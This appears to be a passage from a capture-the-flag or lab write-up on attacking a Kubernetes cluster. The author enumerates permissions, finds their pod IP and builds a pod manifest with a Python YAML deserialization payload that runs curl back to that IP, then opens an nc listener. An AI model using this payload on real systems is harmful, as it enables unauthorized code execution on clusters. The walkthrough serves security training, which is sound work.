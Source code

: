 ```bash
                                                [/openid/v1/jwks]                     []               [get]
                                                [/readyz]                             []               [get]
                                                [/readyz]                             []               [get]
                                                [/version/]                           []               [get]
                                                [/version/]                           []               [get]
                                                [/version]                            []               [get]
                                                [/version]                            []               [get]
```

Great we can `get` pods. Running that via `kubectl` we see our `public-terminal`.

```bash
elit3hex0r@public-terminal:/$ kubectl get pods
NAME              READY   STATUS    RESTARTS   AGE
public-terminal   1/1     Running   0          72m
```

If we run the following command we can obtain our IP address.

```bash
elit3hex0r@public-terminal:/$ kubectl get pods -n public -ojson | jq -r '.items[].status.podIP'
192.168.109.68
```

Great, we've got what we need to build a payload.

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: test
  namespace: default
spec:
  containers:
  - image: ubuntu:latest
    command: [!!python/object/new:os.system [ curl 192.168.109.68:9090 ]]
    name: test
    ports:
    - name: http
      containerPort: 80
    imagePullPolicy: IfNotPresent
```

Let's start a netcat listener on our `public-terminal`.

```bash
elit3hex0r@public-terminal:/$ nc -nlvp 9090
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:9090
Ncat: Listening on 0.0.0.0:9090
```
